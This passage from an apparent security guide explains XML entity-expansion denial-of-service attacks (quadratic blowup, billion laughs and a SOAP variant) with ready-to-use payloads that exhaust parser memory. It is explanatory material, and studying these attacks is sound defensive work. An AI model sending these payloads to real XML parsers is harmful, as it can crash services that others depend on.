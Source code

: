 #### Quadratic Blowup

**Instead of defining multiple small, deeply nested entities, the attacker in this scenario defines one very large entity and refers to it as many times as possible, resulting in a quadratic expansion (*O(n^2)*).**

The result of the following attack will be 100,000 x 100,000 characters in memory.

```xml
<!DOCTYPE root [
 <!ELEMENT root ANY>
 <!ENTITY A "AAAAA...(a 100.000 A's)...AAAAA">
]>
<root>&A;&A;&A;&A;...(a 100.000 &A;'s)...&A;&A;&A;&A;&A;</root>
```

#### Billion Laughs

**When an XML parser tries to resolve the external entities included within the following code, it will cause the application to start consuming all of the available memory until the process crashes.** This is an example XML document with an embedded [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) schema including the attack:

```xml
<!DOCTYPE root [
 <!ELEMENT root ANY>
 <!ENTITY LOL "LOL">
 <!ENTITY LOL1 "&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;">
 <!ENTITY LOL2 "&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;">
 <!ENTITY LOL3 "&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;">
 <!ENTITY LOL4 "&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;">
 <!ENTITY LOL5 "&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;">
 <!ENTITY LOL6 "&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;">
 <!ENTITY LOL7 "&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;">
 <!ENTITY LOL8 "&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;">
 <!ENTITY LOL9 "&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;">
]>
<root>&LOL9;</root>
```

The entity `LOL9` will be resolved as the 10 entities defined in `LOL8`; then each of these entities will be resolved in `LOL7` and so on. Finally, the CPU and/or memory will be affected by parsing the `3 x 10^9` (3,000,000,000) entities defined in this schema, which could make the parser crash.

**The Simple Object Access Protocol ([SOAP](https://en.wikipedia.org/wiki/SOAP)) specification forbids [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp)s completely. This means that a SOAP processor can reject any SOAP message that contains a [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp). Despite this specification, certain SOAP implementations did parse [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) schemas within SOAP messages.**

The following example illustrates a case where the parser is not following the specification, enabling a reference to a [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) in a SOAP message:

```xml
<?XML VERSION="1.0" ENCODING="UTF-8"?>
<!DOCTYPE SOAP-ENV:ENVELOPE [
 <!ELEMENT SOAP-ENV:ENVELOPE ANY>
 <!ATTLIST SOAP-ENV:ENVELOPE ENTITYREFERENCE CDATA #IMPLIED>
 <!ENTITY LOL "LOL">
 <!ENTITY LOL1 "&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;">
 <!ENTITY LOL2 "&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;">
 <!ENTITY LOL3 "&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;">
 <!ENTITY LOL4 "&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;">
 <!ENTITY LOL5 "&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;">
 <!ENTITY LOL6 "&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;">
 <!ENTITY LOL7 "&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;">
 <!ENTITY LOL8 "&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;">
 <!ENTITY LOL9 "&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;">
```